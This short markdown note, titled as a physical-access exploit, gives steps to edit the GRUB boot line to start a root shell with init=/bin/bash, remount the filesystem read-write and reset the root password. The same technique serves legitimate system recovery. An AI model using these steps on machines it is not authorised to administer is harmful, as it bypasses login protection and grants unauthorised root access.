 # Physical Access Exploits

## GRUB Boot "Maintenance Mode"

1) Enter GRUB menu press "e" on keyboard

2) Modify line that begins with "linux"
	- after 'ro "X"'
	- delete the rest, change ro to rw
	- append the following

```sh
init=/bin/bash
```

3) Press CTRL+X to save and boot

4) Mount the filesystem
```
mount -no remount,rw /
```

5) Set the root password
```
passwd [PASSWORD]
```
